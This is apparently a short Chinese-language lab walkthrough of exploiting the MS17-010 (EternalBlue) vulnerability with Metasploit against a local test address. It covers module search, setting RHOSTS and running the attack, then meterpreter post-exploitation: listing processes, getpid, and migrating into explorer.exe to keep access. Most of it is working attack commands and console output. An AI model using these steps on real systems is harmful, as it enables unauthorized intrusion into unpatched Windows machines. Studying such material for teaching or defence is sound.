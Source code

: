 

### 搜索攻击载荷

```
search ms17_010
```

![image-20220317135133016](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu2a1hocj21xs0cgn0o.jpg)

### 永恒之蓝攻击载荷

```
use 2
```

![image-20220317135219561](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu32l6v1j20n604oaac.jpg)

### 配置的参数

```
options
```

![image-20220317135313535](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu40f11zj21eo0jc77g.jpg)

#### 设置 目标ip

```
set RHOSTS 172.20.10.3
```

### run攻击

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu6b557sj21bu0u0gtp.jpg)

### meterpreter后渗透

#### 1、ps 查看进程

![image-20220317150505812](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cw6sl5ccj20mh0cktan.jpg)

#### 2、查看当前进程号

```
getpid
```

![image-20220317150602357](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cw7s4exvj205i01jt8j.jpg)

从ps查看的运行进程内找出meterpreter的ipd，可以看到，现在的进程为1104，name为svchost.exe，输入migrate 2844迁移至explorer.exe，因为该进程是一个稳定的应用，然后再使用getpid查看新的进程号

```
meterpreter > migrate 2844
 
[] Migrating from 1104 to 2844...
 
[] Migration completed successfully.
 
meterpreter > getpid
 
Current pid: 2844
 
meterpreter >
```
